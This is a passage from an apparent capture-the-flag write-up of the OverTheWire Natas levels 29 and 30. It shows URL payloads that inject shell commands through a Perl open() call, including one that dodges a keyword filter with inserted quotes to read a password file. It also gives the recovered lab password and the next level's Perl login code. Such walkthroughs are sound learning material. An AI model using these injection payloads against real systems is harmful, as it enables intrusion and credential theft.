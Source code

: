 
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=|cat+index.pl%00
```

After some cleanup, here is the interesting part of the code :

```perl
if(param('file')){
    $f=param('file');
    if($f=~/natas/){
        print "meeeeeep!<br>";
    }
    else{
        open(FD, "$f.txt");
        print "<pre>";
        while (<FD>){
            print CGI::escapeHTML($_);
        }
        print "</pre>";
    }
}
```

As you can see, if we try to read the password for the next level you won't get it as the code filter the keyword **natas**. However, by injecting the following command I managed to get the password :

```text
http://natas29.natas.labs.overthewire.org/index.pl?file=|cat+/etc/na%22%22tas_webpass/nat%22%22as30%00
````

Here you go !

```text
wie9iexae0Daihohv8vuu3cei9wahf0e
```

## Natas 30 Solution

**URL :** [http://natas30.natas.labs.overthewire.org](http://natas30.natas.labs.overthewire.org) <br/>
**Credentials :** *natas30:wie9iexae0Daihohv8vuu3cei9wahf0e*

Here is the Perl code for this challenge :

```perl
if ('POST' eq request_method && param('username') && param('password')){
    my $dbh = DBI->connect( "DBI:mysql:natas30","natas30", "<censored>", {'RaiseError' => 1});
    my $query="Select * FROM users where username =".$dbh->quote(param('username')) . " and password =".$dbh->quote(param('password')); 

    my $sth = $dbh->prepare($query);
    $sth->execute();
    my $ver = $sth->fetch();
    if ($ver){
        print "win!<br>";
        print "here is your result:<br>";
        print @$ver;
    }
    else{
        print "fail :(";
    }
    $sth->finish();
    $dbh->disconnect();
}

print <<END;
```